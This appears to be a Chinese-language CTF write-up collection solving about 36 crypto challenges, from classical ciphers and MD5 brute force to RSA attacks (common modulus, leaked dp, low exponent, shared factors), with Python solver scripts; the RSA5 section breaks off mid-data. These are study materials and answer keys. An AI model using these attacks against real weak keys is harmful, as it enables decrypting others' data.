


## crypto

### 1. 变异凯撒

`flag{`为：102、108、97、103、123；

密文前五位：97、102、90、95、114；

相差5、6、7……

脚本破译：

```python
import base64

str="afZ_r9VYfScOeO_UL^RWUc"
flag=""
for i in range(len(str)):
	flag+=chr(ord(str[i])+(i+5))
print(flag)
```

### 2. Quoted-printable

CyberChef直接跑，选择Quoted-printable编码

### 3. Rabbit

rabbit解密，[Rabbit在线加密|解密 (stackoverflow.org.cn)](https://stackoverflow.org.cn/rabbitencrypt/)

### 4. 篱笆墙的影子

栅栏解密

### 5. RSA

脚本破译：

```python
import gmpy2
p=473398607161
q=4511491
e=17
d=gmpy2.invert(e,(q-1)*(p-1))
print(d)
```

### 6. 丢失的MD5

将脚本补充完整跑一下

```python
import hashlib   
for i in range(32,127):
    for j in range(32,127):
        for k in range(32,127):
            m=hashlib.md5()
            m.update(('TASC'+chr(i)+'O3RJMV'+chr(j)+'WDJKX'+chr(k)+'ZM').encode('utf8'))
            des=m.hexdigest()
            if 'e9032' in des and 'da' in des and '911513' in des:
                print(des)
                break
```

### 7. Alice与Bob

yafu因式分解

```shell
yafu-x64.exe factor(98554799767)
```

md5加密得到flag

### 8. 大帝的密码武器

先凯撒解密FRPHEVGL，key为13时是有意义的单词`key #13: SECURITY`

同样以13为key对ComeChina得到flag

### 9. rsarsa

脚本破译：

```python
import gmpy2
p =  9648423029010515676590551740010426534945737639235739800643989352039852507298491399561035009163427050370107570733633350911691280297777160200625281665378483
q =  11874843837980297032092405848653656852760910154543380907650040190704283358909208578251063047732443992230647903887510065547947313543299303261986053486569407
e =  65537
c =  83208298995174604174773590298203639360540024871256126892889661345742403314929861939100492666605647316646576486526217457006376842280869728581726746401583705899941768214138742259689334840735633553053887641847651173776251820293087212885670180367406807406765923638973161375817392737747832762751690104423869019034
n=p*q
d=gmpy2.invert(e,(q-1)*(p-1))
m=pow(c,d,n)
print(m)
```

### 10. Windows系统密码

文件名pass.hash为提示，文件打开中间是32位pass.32为hash

对其进行md5解密[MD5免费在线解密破解_MD5在线加密-SOMD5](https://www.somd5.com/)，解密到`a7fcb22a88038f35a8f39d503e7f0062`时得到flag

### 11. 信息化时代的步伐

中文电码解码

### 12. 凯撒？替换？呵呵!

quipquip解密[quipqiup - cryptoquip and cryptogram solver](https://www.quipqiup.com/)，设置Clues


### 13. 萌萌哒的八戒

猪圈解密[CTF在线工具-在线猪圈密码加密|在线猪圈密码解密|猪圈密码算法|Pigpen Cipher (hiencode.com)](http://www.hiencode.com/pigpen.html)

### 14. 传统知识+古典密码

`辛卯，癸巳，丙戌，辛未，庚辰，癸酉，己卯，癸巳` 在六十甲子顺序表中对应的数字是：

`28,30,23,8,17,10,16,30`，再加甲子（+60）后得到`XZSDMFLZ`

尝试古典密码（凯撒+栅栏）解密得到flag

### 15. 权限获得第一步

md5解密得到flag

### 16. RSA1

脚本破译：

```python
import gmpy2
p = 8637633767257008567099653486541091171320491509433615447539162437911244175885667806398411790524083553445158113502227745206205327690939504032994699902053229 
q = 12640674973996472769176047937170883420927050821480010581593137135372473880595613737337630629752577346147039284030082593490776630572584959954205336880228469 
dp = 6500795702216834621109042351193261530650043841056252930930949663358625016881832840728066026150264693076109354874099841380454881716097778307268116910582929 
dq = 783472263673553449019532580386470672380574033551303889137911760438881683674556098098256795673512201963002175438762767516968043599582527539160811120550041 
c = 24722305403887382073567316467649080662631552905960229399079107995602154418176056335800638887527614164073530437657085079676157350205351945222989351316076486573599576041978339872265925062764318536089007310270278526159678937431903862892400747915525118983959970607934142974736675784325993445942031372107342103852
n=p*q
I=gmpy2.invert(q,p)
mp=pow(c,dp,p)
mq=pow(c,dq,q)
m=(((mp-mq)*I)%p)*q+mq
print(bytes.fromhex(hex(m)[2:]))
```

### 17. 世上无难事

quipquip解密[quipqiup - cryptoquip and cryptogram solver](https://www.quipqiup.com/)，设置Clues


### 18. old-fashion

quipquip爆破

### 19. Unencode

UUencode解码得到flag

### 20. [AFCTF2018]Morse

摩斯电码解码后16进制转换得到flag

### 21. RSA3

运行脚本：

```python
from gmpy2 import invert
# 欧几里得算法
def egcd(a, b):
  if a == 0:
    return (b, 0, 1)
  else:
    g, y, x = egcd(b % a, a)
    return (g, x - (b // a) * y, y)

def main():
  n = 22708078815885011462462049064339185898712439277226831073457888403129378547350292420267016551819052430779004755846649044001024141485283286483130702616057274698473611149508798869706347501931583117632710700787228016480127677393649929530416598686027354216422565934459015161927613607902831542857977859612596282353679327773303727004407262197231586324599181983572622404590354084541788062262164510140605868122410388090174420147752408554129789760902300898046273909007852818474030770699647647363015102118956737673941354217692696044969695308506436573142565573487583507037356944848039864382339216266670673567488871508925311154801
  c1 = 22322035275663237041646893770451933509324701913484303338076210603542612758956262869640822486470121149424485571361007421293675516338822195280313794991136048140918842471219840263536338886250492682739436410013436651161720725855484866690084788721349555662019879081501113222996123305533009325964377798892703161521852805956811219563883312896330156298621674684353919547558127920925706842808914762199011054955816534977675267395009575347820387073483928425066536361482774892370969520740304287456555508933372782327506569010772537497541764311429052216291198932092617792645253901478910801592878203564861118912045464959832566051361
  c2 = 18702010045187015556548691642394982835669262147230212731309938675226458555210425972429418449273410535387985931036711854265623905066805665751803269106880746769003478900791099590239513925449748814075904017471585572848473556490565450062664706449128415834787961947266259789785962922238701134079720414228414066193071495304612341052987455615930023536823801499269773357186087452747500840640419365011554421183037505653461286732740983702740822671148045619497667184586123657285604061875653909567822328914065337797733444640351518775487649819978262363617265797982843179630888729407238496650987720428708217115257989007867331698397
  e1 = 11187289
  e2 = 9647291
  s = egcd(e1, e2)
  s1 = s[1]
  s2 = s[2]
  # 求模反元素
  if s1<0:
    s1 = - s1
    c1 = invert(c1, n)
  elif s2<0:
    s2 = - s2
    c2 = invert(c2, n)

  m = pow(c1,s1,n)*pow(c2,s2,n) % n
  print(m)

if __name__ == '__main__':
  main()

```

得到一个十进制数

```
13040004482819947212936436796507286940525898188874967465457845309271472287032383337801279101
```

转换为16进制：

```
666c61677b34396439313037376131616263623134663161396435343663383062653965667d
```

编码转换得到flag

### 22. RSA2

运行脚本，得到flag

```python
import gmpy2 as gp

e = 65537
n = 248254007851526241177721526698901802985832766176221609612258877371620580060433101538328030305219918697643619814200930679612109885533801335348445023751670478437073055544724280684733298051599167660303645183146161497485358633681492129668802402065797789905550489547645118787266601929429724133167768465309665906113
dp = 905074498052346904643025132879518330691925174573054004621877253318682675055421970943552016695528560364834446303196939207056642927148093290374440210503657

c = 140423670976252696807533673586209400575664282100684119784203527124521188996403826597436883766041879067494280957410201958935737360380801845453829293997433414188838725751796261702622028587211560353362847191060306578510511380965162133472698713063592621028959167072781482562673683090590521214218071160287665180751

for i in range(1, e):  # 在范围(1,e)之间进行遍历
    if (dp * e - 1) % i == 0:
        if n % (((dp * e - 1) // i) + 1) == 0:  # 存在p，使得n能被p整除
            p = ((dp * e - 1) // i) + 1
            q = n // (((dp * e - 1) // i) + 1)
            phi = (q - 1) * (p - 1)  # 欧拉定理
            d = gp.invert(e, phi)  # 求模逆
            m = pow(c, d, n)  # 快速求幂取模运算

print(m)  # 10进制明文
print('------------')
print(hex(m)[2:])  # 16进制明文
print('------------')
print(bytes.fromhex(hex(m)[2:]))  # 16进制转文本

```


### 23. 还原大师

MD5爆破，运行脚本：

```python
# -*- coding: utf-8 -*-
#!/usr/bin/env python
import hashlib

#print hashlib.md5(s).hexdigest().upper()
k = 'TASC?O3RJMV?WDJKX?ZM'                    #要还原的明文
for i in range(26):
	temp1 = k.replace('?',str(chr(65+i)),1)
	for j in range(26):
		temp2 = temp1.replace('?',chr(65+j),1)
		for n in range(26):
			temp3 = temp2.replace('?',chr(65+n),1)
			s = hashlib.md5(temp3.encode('utf8')).hexdigest().upper()#注意大小写
			if s[:4] == 'E903':    #检查元素
				print (s)       #输出密文

```


### 24. 异性相吸

将两个文本用010打开，得到两个文本的2进制文本，运行脚本：

```python
a = '0110000101110011011000010110010001110011011000010111001101100100011000010111001101100100011000010111001101100100011000010111001101100100011000010111001101100100011000010111001101100100011000010111001101100100011000010111001101100100011000010111001101100100011100010111011101100101011100110111000101100110'
b = '0000011100011111000000000000001100001000000001000001001001010101000000110001000001010100010110000100101101011100010110000100101001010110010100110100010001010010000000110100010000000010010110000100011000000110010101000100011100000101010101100100011101010111010001000001001001011101010010100001010000011011'
c = ''

for i in range(len(a)):
    if(a[i] == b[i]):
        c+='0'
    else:
        c+='1'
print(c)

```

将结果转换为16进制后转换为文本，得到flag

### 25. RSA

首先要进行公钥提取，在kali中运行`openssl rsa -pubin -text -modulus -in pub.key `提取n、e


Modulus 是n的值，Exponent是e的值，对N值进行因式分解` yafu-x64.exe factor(0xC0332C5C64AE47182F6C1C876D42336910545A58F7EEFEFC0BCAAF5AF341CCDD)`得到p、q


使用RSATool2获取d的值（Calc D按钮）


得到了e、n、p、q、d以后直接写脚本破译获取flag

```python
import rsa

e= 65537
n= 86934482296048119190666062003494800588905656017203025617216654058378322103517
p= 285960468890451637935629440372639283459
q= 304008741604601924494328155975272418463
d= 81176168860169991027846870170527607562179635470395365333547868786951080991441

key = rsa.PrivateKey(n,e,d,q,p)         #在pkcs标准中,pkcs#1规定,私钥包含(n,e,d,p,q)

with open("D:\\Work\\flag.enc","rb") as f:  #以二进制读模式，读取密文
    f = f.read()
    print(rsa.decrypt(f,key))           # f:公钥加密结果  key:私钥
```

### 26. RSAROLL

根据给的data文本，n为920139713，e为19，对n因式分解得p、q：


编写脚本直接得flag：

```python
import gmpy2
N,p,q,e=920139713,18443,49891,19
d=gmpy2.invert(e,(p-1)*(q-1))
result=[]

with open("D:\\Work\\data.txt","r") as f:
    for line in f.readlines():
        line=line.strip('\n')#去掉列表中每一个元素的换行符
        result.append(chr(pow(int(line),d,N)))

for i in result:
    print(i,end='')


```

`D:\\Work\\data.txt`需要将原本开头的`{920139713,19}`去掉

### 27. Dangerous RSA

低加密指数攻击：在e非常小的情况下（通常为3），n很大又不好分解
RSA加密公式： C=M^e % n (C密文，M明文)，根据M^e 和n的大小可以分为两种情况

- 直接爆破；
- 低指数广播攻击；

```python
'''
当M^e < n 时，
 C = M^e ，所以对C开方就能得到M
'''
from gmpy2 import iroot
import libnum
n = 0x52d483c27cd806550fbe0e37a61af2e7cf5e0efb723dfc81174c918a27627779b21fa3c851e9e94188eaee3d5cd6f752406a43fbecb53e80836ff1e185d3ccd7782ea846c2e91a7b0808986666e0bdadbfb7bdd65670a589a4d2478e9adcafe97c6ee23614bcb2ecc23580f4d2e3cc1ecfec25c50da4bc754dde6c8bfd8d1fc16956c74d8e9196046a01dc9f3024e11461c294f29d7421140732fedacac97b8fe50999117d27943c953f18c4ff4f8c258d839764078d4b6ef6e8591e0ff5563b31a39e6374d0d41c8c46921c25e5904a817ef8e39e5c9b71225a83269693e0b7e3218fc5e5a1e8412ba16e588b3d6ac536dce39fcdfce81eec79979ea6872793

c = 0x10652cdfaa6b63f6d7bd1109da08181e500e5643f5b240a9024bfa84d5f2cac9310562978347bb232d63e7289283871efab83d84ff5a7b64a94a79d34cfbd4ef121723ba1f663e514f83f6f01492b4e13e1bb4296d96ea5a353d3bf2edd2f449c03c4a3e995237985a596908adc741f32365

k = 0
while 1:
    res=iroot(c+k*n,3)
    if(res[1]==True):
        print(libnum.n2s(int(res[0])))
        break
    k=k+1


'''

第二种写法
当M^e ＞ n 时，此时用爆破的方法
 假设我们　 Ｍ^e / n 商 k 余数为c，
 所以Ｍ^e  = k*n + C，对K进行爆破，只要k满足 k*n + C能够开方就可以
'''
'''
import gmpy2 
from libnum import*
n = 0x52d483c27cd806550fbe0e37a61af2e7cf5e0efb723dfc81174c918a27627779b21fa3c851e9e94188eaee3d5cd6f752406a43fbecb53e80836ff1e185d3ccd7782ea846c2e91a7b0808986666e0bdadbfb7bdd65670a589a4d2478e9adcafe97c6ee23614bcb2ecc23580f4d2e3cc1ecfec25c50da4bc754dde6c8bfd8d1fc16956c74d8e9196046a01dc9f3024e11461c294f29d7421140732fedacac97b8fe50999117d27943c953f18c4ff4f8c258d839764078d4b6ef6e8591e0ff5563b31a39e6374d0d41c8c46921c25e5904a817ef8e39e5c9b71225a83269693e0b7e3218fc5e5a1e8412ba16e588b3d6ac536dce39fcdfce81eec79979ea6872793
c = 0x10652cdfaa6b63f6d7bd1109da08181e500e5643f5b240a9024bfa84d5f2cac9310562978347bb232d63e7289283871efab83d84ff5a7b64a94a79d34cfbd4ef121723ba1f663e514f83f6f01492b4e13e1bb4296d96ea5a353d3bf2edd2f449c03c4a3e995237985a596908adc741f32365

i = 0
while 1:
    if(gmpy2.iroot(c+i*n,3)[1]==1):     #开根号
        print(gmpy2.iroot(c+i*n,3))
        break
    i=i+1

'''

```


### 28.  [HDCTF2019]basic rsa

根据脚本已知了n、p、q、c、e，直接运行脚本破译得到flag：

```python
import random
from binascii import a2b_hex,b2a_hex
p = 262248800182277040650192055439906580479
q = 262854994239322828547925595487519915551
n = p * q
def multiplicative_inversr(a,b):
    x = 0
    y = 1
    lx = 1
    ly = 0
    oa = a
    ob = b
    while b != 0:
        q = a // b
        (a, b) = (b, a % b)
        (x, lx) = ((lx - (q * x)), x)
        (y, ly) = ((ly - (q * y)), y)
    if lx < 0:
        lx += ob
    if ly < 0:
        ly += oa
    return lx
def gcd(a,b):
    while b != 0:
        a, b = b, a % b
    return a
def generate_keypair(p,q):
    n = p * q
    phi = (p - 1) * (q -1)
    e = 65533
    g = gcd(e, phi)
    while g != 1:
        e = random.randrange(1, phi)
        g = gcd(e, phi)
    d = multiplicative_inversr(e, phi)
    return ((e,n),(d,n))
def encrypt(pk, plaintext):
    key, n = pk[0]
    print(b2a_hex(plaintext.encode()))
    cipher = pow(int(b2a_hex(plaintext.encode()),16), key , n)
    return cipher
def decrypt(pk, cipher):
    key, n = pk[1]
    cipher = pow(cipher, key ,n)
    cipher = a2b_hex(hex(cipher).split('0x')[1])
    return cipher
pk = generate_keypair(p,q)
cipher = 27565231154623519221597938803435789010285480123476977081867877272451638645710
plaintext = decrypt(pk, cipher)
print(plaintext)

```

### 29. [GXYCTF2019]CheckIn

先base64 后rot-47解码得到flag

一些密码的破译特征：

- 没有{}不是凯撒加密；
- 没有=不是base64；
- 每一个字符的ASCII在33-126，是ROT-N加密；

### 30. Cipher

根据提示公平的玩吧==palyfair==普莱费尔密码

在线解密网站：playfair作为密钥，[Playfair (rumkin.com)](https://rumkin.com/tools/cipher/playfair/)解密得到flag；

或者使用playfair作为密钥自己算下key sequare，playfirbcdeghkmnoqstuvwxz，用captfencoder解密即可

### 31. 密码学的心声

根据下载的图片的提示，为八进制转ASCII，直接手打简谱转换得到flag

### 32. [GUET-CTF2019]BabyRSA

题目给了p+q，(p+1)(q+1)，e，d,以及密文C，RSA公式：M=C^d mod n，求n（n=p*q）即可;

n=(p+1)(q+1)-p+q-1，编写脚本破译：

```python
import libnum
a = 0x1232fecb92adead91613e7d9ae5e36fe6bb765317d6ed38ad890b4073539a6231a6620584cea5730b5af83a3e80cf30141282c97be4400e33307573af6b25e2ea
b = 0x5248becef1d925d45705a7302700d6a0ffe5877fddf9451a9c1181c4d82365806085fd86fbaab08b6fc66a967b2566d743c626547203b34ea3fdb1bc06dd3bb765fd8b919e3bd2cb15bc175c9498f9d9a0e216c2dde64d81255fa4c05a1ee619fc1fc505285a239e7bc655ec6605d9693078b800ee80931a7a0c84f33c851740
e = 0xe6b1bee47bd63f615c7d0a43c529d219
d = 0x2dde7fbaed477f6d62838d55b0d0964868cf6efb2c282a5f13e6008ce7317a24cb57aec49ef0d738919f47cdcd9677cd52ac2293ec5938aa198f962678b5cd0da344453f521a69b2ac03647cdd8339f4e38cec452d54e60698833d67f9315c02ddaa4c79ebaa902c605d7bda32ce970541b2d9a17d62b52df813b2fb0c5ab1a5
c= 0x50ae00623211ba6089ddfae21e204ab616f6c9d294e913550af3d66e85d0c0693ed53ed55c46d8cca1d7c2ad44839030df26b70f22a8567171a759b76fe5f07b3c5a6ec89117ed0a36c0950956b9cde880c575737f779143f921d745ac3bb0e379c05d9a3cc6bf0bea8aa91e4d5e752c7eb46b2e023edbc07d24a7c460a34a9a

n = b-a-1

m = pow(c,d,n)

print(libnum.n2s(m))  #（n2s将数值转化为字符串）
```

### 33. robomunication

摩斯电码解密，听完解密即可得到flag

### 34. [BJDCTF2020]这是base??

替换加密，题目给了一个字典，对比base6+4标准字典，直接跑出flag

```python
import base64
dict={0: 'J', 1: 'K', 2: 'L', 3: 'M', 4: 'N', 5: 'O', 6: 'x', 7: 'y', 8: 'U', 9: 'V', 10: 'z', 11: 'A', 12: 'B', 13: 'C', 14: 'D', 15: 'E', 16: 'F', 17: 'G', 18: 'H', 19: '7', 20: '8', 21: '9', 22: 'P', 23: 'Q', 24: 'I', 25: 'a', 26: 'b', 27: 'c', 28: 'd', 29: 'e', 30: 'f', 31: 'g', 32: 'h',33: 'i', 34: 'j', 35: 'k', 36: 'l', 37: 'm', 38: 'W', 39: 'X', 40: 'Y', 41: 'Z', 42: '0', 43: '1', 44: '2', 45: '3', 46: '4', 47: '5', 48: '6', 49: 'R', 50: 'S', 51: 'T', 52: 'n', 53: 'o', 54: 'p', 55: 'q', 56: 'r', 57: 's', 58: 't', 59: 'u', 60: 'v', 61: 'w', 62: '+', 63: '/', 64: '='}
base64_list = ['A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P','Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z', 'a', 'b', 'c', 'd', 'e', 'f','g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v','w', 'x', 'y', 'z', '0', '1', '2', '3', '4', '5', '6', '7', '8', '9', '+', '/']
cipher='FlZNfnF6Qol6e9w17WwQQoGYBQCgIkGTa9w3IQKw'
res=''
for i in range(len(cipher)):
    for j in range(64):
        if(dict[j]==cipher[i]):
            res+=base64_list[j]
flag=base64.b64decode(res)
print(flag)

```


### 35. rsa2

阅读附件的代码得知flag是对d的一系列运算，代码中给定了N和e，首先对N因式分解得到p、q

因式分解网站[factordb.com](http://www.factordb.com/)

```python
import gmpy2
import hashlib
from Crypto.Util.number import *
n=101991809777553253470276751399264740131157682329252673501792154507006158434432009141995367241962525705950046253400188884658262496534706438791515071885860897552736656899566915731297225817250639873643376310103992170646906557242832893914902053581087502512787303322747780420210884852166586717636559058152544979471
p=9046853915223503351787031888977627106934564043204783593118678181991596316582877057556463152579621699010610569526573031954779520781448550677767565207407183
q=11273732364123571293429600400343309403733952146912318879993851141423284675797325272321856863528776914709992821287788339848962916204774010644058033316303937
phi=(p-1)*(q-1)
e=46731919563265721307105180410302518676676135509737992912625092976849075262192092549323082367518264378630543338219025744820916471913696072050291990620486581719410354385121760761374229374847695148230596005409978383369740305816082770283909611956355972181848077519920922059268376958811713365106925235218265173085
d=gmpy2.invert(e,phi)
print(d)
print(hex(d))
#hex(d)='0x13b8f87d588e2aa4a27296cf2898f56ab4c8deb5a1222ec080e23afecaf7f975'

''' 但python3中hex(d)得到的数字最后没有L，导致hash值与python2得到的不同，而正确的flag是用python2得到的结果，所以这里我手动加上了L'''
print(hashlib.md5(b'0x13b8f87d588e2aa4a27296cf2898f56ab4c8deb5a1222ec080e23afecaf7f975L').hexdigest())

```

这里有个小坑，就是由于Python2和Python3有一点区别，在Python3中，hex(d)得到的值在输出形式上相比Python2少了一个末尾的L，再用这个值去做hash得到的md5值也就不同了。经实验发现，正确的结果可以用Python2直接得到，或在Python3中做hash时给参数末尾加上L。

### 36. RSA5

给了多组n和c，这些nc会得到同一个明文m，通过对不同的n进行gcd()算法，求出最大公约数，此最大公约数即为p：

```python
from gmpy2 import *

n0 = 20474918894051778533305262345601880928088284471121823754049725354072477155873778848055073843345820697886641086842612486541250183965966001591342031562953561793332341641334302847996108417466360688139866505179689516589305636902137210185624650854906780037204412206309949199080005576922775773722438863762117750429327585792093447423980002401200613302943834212820909269713876683465817369158585822294675056978970612202885426436071950214538262921077409076160417436699836138801162621314845608796870206834704116707763169847387223307828908570944984416973019427529790029089766264949078038669523465243837675263858062854739083634207
c0 = 974463908243330865728978769213595400782053398596897741316275722596415018912929508637393850919224969271766388710025195039896961956062895570062146947736340342927974992616678893372744261954172873490878805483241196345881721164078651156067119957816422768524442025688079462656755605982104174001635345874022133045402344010045961111720151990412034477755851802769069309069018738541854130183692204758761427121279982002993939745343695671900015296790637464880337375511536424796890996526681200633086841036320395847725935744757993013352804650575068136129295591306569213300156333650910795946800820067494143364885842896291126137320

n1 = 20918819960648891349438263046954902210959146407860980742165930253781318759285692492511475263234242002509419079545644051755251311392635763412553499744506421566074721268822337321637265942226790343839856182100575539845358877493718334237585821263388181126545189723429262149630651289446553402190531135520836104217160268349688525168375213462570213612845898989694324269410202496871688649978370284661017399056903931840656757330859626183773396574056413017367606446540199973155630466239453637232936904063706551160650295031273385619470740593510267285957905801566362502262757750629162937373721291789527659531499435235261620309759
c1 = 15819636201971185538694880505120469332582151856714070824521803121848292387556864177196229718923770810072104155432038682511434979353089791861087415144087855679134383396897817458726543883093567600325204596156649305930352575274039425470836355002691145864435755333821133969266951545158052745938252574301327696822347115053614052423028835532509220641378760800693351542633860702225772638930501021571415907348128269681224178300248272689705308911282208685459668200507057183420662959113956077584781737983254788703048275698921427029884282557468334399677849962342196140864403989162117738206246183665814938783122909930082802031855

n2 = 25033254625906757272369609119214202033162128625171246436639570615263949157363273213121556825878737923265290579551873824374870957467163989542063489416636713654642486717219231225074115269684119428086352535471683359486248203644461465935500517901513233739152882943010177276545128308412934555830087776128355125932914846459470221102007666912211992310538890654396487111705385730502843589727289829692152177134753098649781412247065660637826282055169991824099110916576856188876975621376606634258927784025787142263367152947108720757222446686415627479703666031871635656314282727051189190889008763055811680040315277078928068816491
c2 = 4185308529416874005831230781014092407198451385955677399668501833902623478395669279404883990725184332709152443372583701076198786635291739356770857286702107156730020004358955622511061410661058982622055199736820808203841446796305284394651714430918690389486920560834672316158146453183789412140939029029324756035358081754426645160033262924330248675216108270980157049705488620263485129480952814764002865280019185127662449318324279383277766416258142275143923532168798413011028271543085249029048997452212503111742302302065401051458066585395360468447460658672952851643547193822775218387853623453638025492389122204507555908862

n3 = 21206968097314131007183427944486801953583151151443627943113736996776787181111063957960698092696800555044199156765677935373149598221184792286812213294617749834607696302116136745662816658117055427803315230042700695125718401646810484873064775005221089174056824724922160855810527236751389605017579545235876864998419873065217294820244730785120525126565815560229001887622837549118168081685183371092395128598125004730268910276024806808565802081366898904032509920453785997056150497645234925528883879419642189109649009132381586673390027614766605038951015853086721168018787523459264932165046816881682774229243688581614306480751
c3 = 4521038011044758441891128468467233088493885750850588985708519911154778090597136126150289041893454126674468141393472662337350361712212694867311622970440707727941113263832357173141775855227973742571088974593476302084111770625764222838366277559560887042948859892138551472680654517814916609279748365580610712259856677740518477086531592233107175470068291903607505799432931989663707477017904611426213770238397005743730386080031955694158466558475599751940245039167629126576784024482348452868313417471542956778285567779435940267140679906686531862467627238401003459101637191297209422470388121802536569761414457618258343550613

n4 = 22822039733049388110936778173014765663663303811791283234361230649775805923902173438553927805407463106104699773994158375704033093471761387799852168337898526980521753614307899669015931387819927421875316304591521901592823814417756447695701045846773508629371397013053684553042185725059996791532391626429712416994990889693732805181947970071429309599614973772736556299404246424791660679253884940021728846906344198854779191951739719342908761330661910477119933428550774242910420952496929605686154799487839923424336353747442153571678064520763149793294360787821751703543288696726923909670396821551053048035619499706391118145067
c4 = 15406498580761780108625891878008526815145372096234083936681442225155097299264808624358826686906535594853622687379268969468433072388149786607395396424104318820879443743112358706546753935215756078345959375299650718555759698887852318017597503074317356745122514481807843745626429797861463012940172797612589031686718185390345389295851075279278516147076602270178540690147808314172798987497259330037810328523464851895621851859027823681655934104713689539848047163088666896473665500158179046196538210778897730209572708430067658411755959866033531700460551556380993982706171848970460224304996455600503982223448904878212849412357

n5 = 21574139855341432908474064784318462018475296809327285532337706940126942575349507668289214078026102682252713757703081553093108823214063791518482289846780197329821139507974763780260290309600884920811959842925540583967085670848765317877441480914852329276375776405689784571404635852204097622600656222714808541872252335877037561388406257181715278766652824786376262249274960467193961956690974853679795249158751078422296580367506219719738762159965958877806187461070689071290948181949561254144310776943334859775121650186245846031720507944987838489723127897223416802436021278671237227993686791944711422345000479751187704426369
c5 = 20366856150710305124583065375297661819795242238376485264951185336996083744604593418983336285185491197426018595031444652123288461491879021096028203694136683203441692987069563513026001861435722117985559909692670907347563594578265880806540396777223906955491026286843168637367593400342814725694366078337030937104035993569672959361347287894143027186846856772983058328919716702982222142848848117768499996617588305301483085428547267337070998767412540225911508196842253134355901263861121500650240296746702967594224401650220168780537141654489215019142122284308116284129004257364769474080721001708734051264841350424152506027932

n6 = 25360227412666612490102161131174584819240931803196448481224305250583841439581008528535930814167338381983764991296575637231916547647970573758269411168219302370541684789125112505021148506809643081950237623703181025696585998044695691322012183660424636496897073045557400768745943787342548267386564625462143150176113656264450210023925571945961405709276631990731602198104287528528055650050486159837612279600415259486306154947514005408907590083747758953115486124865486720633820559135063440942528031402951958557630833503775112010715604278114325528993771081233535247118481765852273252404963430792898948219539473312462979849137
c6 = 19892772524651452341027595619482734356243435671592398172680379981502759695784087900669089919987705675899945658648623800090272599154590123082189645021800958076861518397325439521139995652026377132368232502108620033400051346127757698623886142621793423225749240286511666556091787851683978017506983310073524398287279737680091787333547538239920607761080988243639547570818363788673249582783015475682109984715293163137324439862838574460108793714172603672477766831356411304446881998674779501188163600664488032943639694828698984739492200699684462748922883550002652913518229322945040819064133350314536378694523704793396169065179

n7 = 22726855244632356029159691753451822163331519237547639938779517751496498713174588935566576167329576494790219360727877166074136496129927296296996970048082870488804456564986667129388136556137013346228118981936899510687589585286517151323048293150257036847475424044378109168179412287889340596394755257704938006162677656581509375471102546261355748251869048003600520034656264521931808651038524134185732929570384705918563982065684145766427962502261522481994191989820110575981906998431553107525542001187655703534683231777988419268338249547641335718393312295800044734534761692799403469497954062897856299031257454735945867491191
c7 = 6040119795175856407541082360023532204614723858688636724822712717572759793960246341800308149739809871234313049629732934797569781053000686185666374833978403290525072598774001731350244744590772795701065129561898116576499984185920661271123665356132719193665474235596884239108030605882777868856122378222681140570519180321286976947154042272622411303981011302586225630859892731724640574658125478287115198406253847367979883768000812605395482952698689604477719478947595442185921480652637868335673233200662100621025061500895729605305665864693122952557361871523165300206070325660353095592778037767395360329231331322823610060006

n8 = 23297333791443053297363000786835336095252290818461950054542658327484507406594632785712767459958917943095522594228205423428207345128899745800927319147257669773812669542782839237744305180098276578841929496345963997512244219376701787616046235397139381894837435562662591060768476997333538748065294033141610502252325292801816812268934171361934399951548627267791401089703937389012586581080223313060159456238857080740699528666411303029934807011214953984169785844714159627792016926490955282697877141614638806397689306795328344778478692084754216753425842557818899467945102646776342655167655384224860504086083147841252232760941
c8 = 5418120301208378713115889465579964257871814114515046096090960159737859076829258516920361577853903925954198406843757303687557848302302200229295916902430205737843601806700738234756698575708612424928480440868739120075888681672062206529156566421276611107802917418993625029690627196813830326369874249777619239603300605876865967515719079797115910578653562787899019310139945904958024882417833736304894765433489476234575356755275147256577387022873348906900149634940747104513850154118106991137072643308620284663108283052245750945228995387803432128842152251549292698947407663643895853432650029352092018372834457054271102816934

n9 = 28873667904715682722987234293493200306976947898711255064125115933666968678742598858722431426218914462903521596341771131695619382266194233561677824357379805303885993804266436810606263022097900266975250431575654686915049693091467864820512767070713267708993899899011156106766178906700336111712803362113039613548672937053397875663144794018087017731949087794894903737682383916173267421403408140967713071026001874733487295007501068871044649170615709891451856792232315526696220161842742664778581287321318748202431466508948902745314372299799561625186955234673012098210919745879882268512656931714326782335211089576897310591491
